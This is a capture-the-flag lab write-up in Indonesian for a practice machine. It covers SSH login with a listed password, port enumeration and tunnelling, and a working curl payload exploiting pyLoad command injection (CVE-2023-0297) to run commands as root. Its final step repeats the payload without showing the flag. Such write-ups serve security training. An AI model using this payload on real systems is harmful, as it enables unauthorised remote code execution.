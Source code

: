##### Mendapatkan user flag dan root flag

###### User flag

```bash
ssh sau@10.10.11.214 -> passsword : HereIsYourPassWord1431
```


###### Root flag

###### enum

```bash
netstat -a
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 localhost:8000          0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN     
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN     
tcp        0    208 10.10.11.214:ssh        10.10.14.22:54552       ESTABLISHED
tcp        0      0 10.10.11.214:ssh        10.10.14.22:54552       ESTABLISHED
tcp6       0      0 [::]:50051              [::]:*                  LISTEN     
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN     
tcp6       0      0 10.10.11.214:50051      10.10.14.22:50546       ESTABLISHED
udp        0      0 localhost:domain        0.0.0.0:*                          
udp        0      0 0.0.0.0:bootpc          0.0.0.0:*                          

```
di sini saya curiga dengan port 8000 maka dari itu saya mencoba dengan port tunnling 

###### port tunnling
```bash
 ssh -L  8000:localhost:8000 sau@10.10.11.214
```

![[Screenshot_2024-06-17_21-30-31.png]]
dan ternyata ada web panel tersendiri dengan menggunakan pyload, setelah saya cari vuln di google ternyata ada command injection **CVE-2023-0297**
[refrensi exploit](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad)

```bash
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/pwnd\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'
```
setelah menjalankan code di atas, betapa beruntung nya bahwa dia berjalan di atas root 

```bash
-rw-r--r--  1 root root    0 Jun 17 14:11 pwnd
```

###### Mendapatkan root flag

```bash
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/shell\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'
```
